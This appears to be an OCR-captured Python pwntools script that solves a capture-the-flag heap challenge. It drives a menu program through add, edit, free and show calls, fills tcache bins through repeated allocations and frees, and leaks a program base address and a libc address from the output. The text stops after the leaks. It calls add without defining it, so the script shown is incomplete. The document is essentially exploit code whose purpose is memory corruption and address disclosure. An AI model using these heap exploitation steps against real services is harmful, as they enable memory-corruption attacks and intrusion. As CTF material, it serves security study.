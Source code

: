 ```python

def free(num):

	p.sendline('2')
	p.recvuntil('input index')
	p.sendline(str(num))

def edit(num,text):

	p.sendline('3')
	p.recvuntil('input index')
	p.sendline(str(num))
	p.recvuntil('input content')
	p.send(text)

def show(num):
	p.sendline('4')
	p.recvuntil('input index')
	p.sendline(str(num))


def leaveYourName(text):
	p.sendline('5')
	p.recvuntil('your name:')
	p.sendline(text)

def showYourName(text):
	p.sendline('6')


add(0,0x59)

add(1,0x28)
edit(1,'wwww\n')
add(2,0x58)
edit(2,'wwww\n')
free(0)
add(3,0x59)
for i in range(7):
	add(i+4,0x58)
for i in range(7):
	free(i+4)
for i in range(7):
	add(i+4,0x59)
for i in range(7):
	free(i+4)
for i in range(7):
	add(i+4,0x28)
for i in range(7):
	free(i+4)

free(0)
free(1)
leaveYourName('k'*4)

show(7)
caddr=u64(p.recvuntil('\x55')[-6:].ljust(8,'\x00'))-0x970
log.info(':'+hex(caddr))
show(1)


addr=u64(p.recvuntil('\x7f')[-6:].ljust(8,'\x00'))-96

```